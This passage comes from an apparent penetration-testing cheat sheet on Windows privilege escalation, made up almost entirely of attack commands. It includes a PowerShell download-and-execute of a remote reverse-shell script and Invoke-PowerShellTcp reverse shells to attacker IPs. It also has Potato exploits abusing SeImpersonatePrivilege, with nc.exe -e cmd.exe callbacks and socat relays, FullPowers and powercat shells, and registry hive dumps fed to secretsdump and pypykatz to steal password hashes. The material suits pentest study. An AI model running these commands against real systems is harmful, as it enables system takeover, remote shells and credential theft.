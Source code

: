 ```powershell
# after having creds, can get back reverse shell having high privs
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://192.168.45.194/revshell.ps1')" -Credential $cred

# shell-admin.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666

```
#### Misconfigured/Excessive Privileges 
##### SeImpersonatePrivilege (Potato Attacks) 
```powershell
# POTATO Attacks
# SeImpersonatePrivilege OR SeAssignPrimaryTokenPrivilege
.\SigmaPotato.exe <cmd>/--revshell <ip> <port>  # [github repo](https://github.com/tylerdotrar/SigmaPotato)
.\PrintSpoofer64.exe -i -c powershell
.\godpotato.exe -cmd "cmd /c systeminfo"
.\juicypotato.exe -t * -p rev.exe -l 4444 # any unoccupied port on victim
# rogue potatoe
rogue.exe -r 192.168.45.154 -e "C:\services\nc.exe 192.168.45.154 4455 -e cmd.exe" -l 9999 # victim
sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.181.222:9999

# sometimes potato attacks doesn't return output then try to create new user
# RottenPotato, SweetPotato, , JuicyPotato or Godpotato [ALL POTATOES](https://github.com/AtvikSecurity/CentralizedPotatoes)

```
###### Local Service Account with no SeImpersonate
Explanation of this attack: [Give me back my privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)

```powershell
whoami  
# nt authority\local service 
# and not having SeImpersonate then use the [FullPowers](https://github.com/itm4n/FullPowers)
Fullpowers.exe 
Fullpowers.exe -x
FullPowers.exe -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z

# In order to shift to another process
RunFromProcess-x64.exe 3636 "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ep Bypass -Command ". C:\TOOLS\powercat.ps1;powercat -l -p 7001 -ep"
```
##### SeBackupPrivilege
```powershell
# if SeBackupPrivilege Permissions then
# Dump SAM, SYSTEM and SECURITY hive
reg save HKLM\SAM sam.bak
reg save HKLM\SYSTEM system.bak
reg save HKLM\SECURITY security.bak
impacket-secretsdump -sam sam.bak -system system.bak -security security.bak LOCAL
impacket-secretsdump -system SYSTEM -sam SAM LOCAL

pypykatz registry  --sam SAM --system SYSTEM

```
